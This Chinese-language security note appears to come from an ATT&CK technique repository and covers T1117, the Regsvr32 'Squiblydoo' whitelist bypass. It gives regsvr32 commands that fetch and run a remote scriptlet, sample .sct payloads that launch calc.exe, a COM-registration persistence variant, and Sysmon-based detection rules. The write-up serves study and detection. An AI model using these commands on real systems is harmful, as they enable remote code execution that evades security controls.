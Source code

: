 # T1117-Regsvr32

Regsvr32.exe是一个命令行程序，用于在Windows系统上注册和取消注册对象链接，嵌入控件和动态链接库。Regsvr32.exe可用于执行任意二进制文件。

攻击者可以利用此功能来代理攻击代码的执行，以避免触发安全工具，这些工具可能无法监视regsvr32.exe进程的执行和加载的模块，因为Windows使用regsvr32.exe进行正常操作时会出现白名单或误报。Regsvr32.exe也是Microsoft签名的二进制文件。

Regsvr32.exe还可用于专门绕过进程白名单，使用功能加载COM scriptlet以在用户权限下执行DLL。由于regsvr32.exe具有网络功能，因此可以调用远程脚本来执行代码。

## 远程命令执行

```
读取远程payload执行
regsvr32 /s /n /u /i:<url/aa.sct> scrobj.dll
读取本地payload执行
regsvr32 /s /n /u /i:<aa.sct> scrobj.dll
```

### 技术复现

1. 建立aaa.sct文件放至HTTP服务

   ```
   File: aa.sct
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="TESTING"
     classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
     <script language="JScript">
       <![CDATA[
         var foo = new ActiveXObject("WScript.Shell").Run("calc.exe"); 
       ]]>
   </script>
   </registration>
   </scriptlet>
   
   root@kali:~/L/sct# python -m SimpleHTTPServer 
   Serving HTTP on 0.0.0.0 port 8000 ...
   
   ```

### 结果验证

![1568433329432](.\T1117-Regsvr32.assets\1568433329432.png)



## 后门驻留

该技术用户后门的方式与远程命令执行类似，在调用远程脚本去掉选项 /n /u 让COM对象注册到注册表中，需要用脚本执行COM对象才能执行（这种方式还需要其他的机制触发脚本运行才能稳定控制，有点鸡肋），所以通过COM劫持替换常被调用的COM对象来实现驻留更为有效，COM劫持本篇不讨论，留在后门的文章详说。

### 技术复现

1. 创建COM对象的sct文件

   ```
   <?XML version="1.0"?>
   <scriptlet>
   <registration
     progid="Test"
     classid="{20002222-0000-0000-0000-000000000002}"
   >
   </registration>
   <public>
     <method name="exec">
     </method>
   </public>
   <script language="JScript">
     <![CDATA[
       function exec(){
         new ActiveXObject('WScript.Shell').Run('calc.exe');
       }
     ]]>
   </script>
   </scriptlet>
   ```

2. 创建执行脚本调用COM对象

   ```
   var test = new ActiveXObject("Test");
   test.exec()
   ```

### 结果验证

![1568438662858](.\T1117-Regsvr32.assets\1568438662858.png)

此时在注册表可以看见注册的COM对象

![1568438770222](.\T1117-Regsvr32.assets\1568438770222.png)

![1568438841369](.\T1117-Regsvr32.assets\1568438841369.png)

## 相关知识

1. Regsvr32的参数含义

   Regsvr32 [/s] [/n] [/i[:cmdline]] dllname
   　　/u 卸载安装的控件，卸载服务器注册
   　　/s 注册成功后不显示操作成功信息框
   　　/i 调用DllInstall函数并把可选参数[cmdline]传给它，当使用/u时用来卸载DLL
   　　/n 不调用DllRegisterServer，该参数必须和/i一起使用

   当使用 /u 时，命令不会在注册表注册COM对象，只会执行远程的scriptlet

2. srcobj.dll起到什么作用

   Scrobj.dll用于注册和取消注册COM对象，这是触发此操作所需的。[详情见此](https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo)


## 威胁取证

**命令行特征：**（级别：高）

```
# 不管是本地还是远程调用，都必须要关键字regsvr32，\i，scrobj.dll
eventid = 1 AND cmdline regex regsvr32\s+.*\i:.*?\s+scrobj.dll
```

![1568551600493](./T1117-Regsvr32.assets/1568551600493.png)



**加载项特征：**（级别：高）

```
# 在执行scriptlet是会使用Jscript或者vbscript脚本，这样系统就会调用脚本程序
eventid = 7 AND ImageLoaded contains ('jscript' OR 'vbscript')
```

![1568551788061](./T1117-Regsvr32.assets/1568551788061.png)



验证vbscript作为payload确认会调用

```
<?XML version="1.0"?>
<scriptlet>
<registration
  progid="TESTING"
  classid="{A1112221-0000-0000-3000-000DA00DABFC}" >
  <script language="vbscript">
    <![CDATA[
      set foo = createobject("WScript.Shell")
      foo.Run("cmd.exe /c calc.exe")
    ]]>
</script>
</registration>
</scriptlet>
```

![1568553045254](./T1117-Regsvr32.assets/1568553045254.png)



进程特征：（级别：中）

```
# 当regsvr32作为父进程创建其他程序时是一种可疑行为
ParentImage contians 'regsvr32.exe'
```

![1568553894651](./T1117-Regsvr32.assets/1568553894651.png)



## 参考

https://attack.mitre.org/techniques/T1117/

https://www.carbonblack.com/2016/04/28/threat-advisory-squiblydoo-continues-trend-of-attackers-using-native-os-tools-to-live-off-the-land/

https://security.stackexchange.com/questions/183021/how-does-this-applocker-bypass-work-exactly-squibblydoo


